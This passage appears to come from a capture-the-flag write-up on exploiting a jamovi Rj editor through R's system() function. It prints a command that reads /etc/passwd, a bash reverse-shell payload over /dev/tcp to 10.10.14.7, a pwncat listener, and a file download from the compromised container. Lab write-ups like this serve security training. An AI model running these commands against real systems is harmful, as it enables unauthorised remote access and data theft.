 You can open the Rj editor by clicking the R icon at the top and then clicking "Rj editor." Looking up how to run a system command finds [Invoke a System Command](https://stat.ethz.ch/R-manual/R-devel/library/base/html/system.html), which says that the function is `system`. We need to set `intern` to `TRUE` so the output of the command is captured. Then, just paste `system("cat /etc/passwd", intern=TRUE)` into the Rj editor and press CTRL + SHIFT + ENTER to run.

![](screenshots/20220725213946.png)

We get the contents of the `/etc/passwd` file. So, now let's get a reverse shell. Our payload is `system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/17916 0>&1'", intern=TRUE)`. Start a listener with [pwncat](https://github.com/calebstewart/pwncat) by running `pwncat-cs -lp 17916`. Then, execute the payload with CTRL + SHIFT + ENTER. Sure enough we get a revere shell!

Our shell prompt is `root@b06821bbda78` so this looks to be a docker container. This is confirmed because there is a `.dockerenv` file in `/`.

Looking in the `/root` directory shows a `bolt-administration.omv` file:

```
(remote) root@b06821bbda78:/root# ls -la
total 28
drwx------ 1 root root 4096 Mar  7 23:19 .
drwxr-xr-x 1 root root 4096 Mar  7 23:18 ..
lrwxrwxrwx 1 root root    9 Mar  7 23:19 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x 3 root root 4096 Jul 26 01:28 .jamovi
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 2 root root 4096 Aug 15  2021 Documents
-rw-r--r-- 1 root root 2192 Aug 15  2021 bolt-administration.omv
```

We can download the file in [pwncat](https://github.com/calebstewart/pwncat) by running `download /root/bolt-administration.omv` in the local shell.
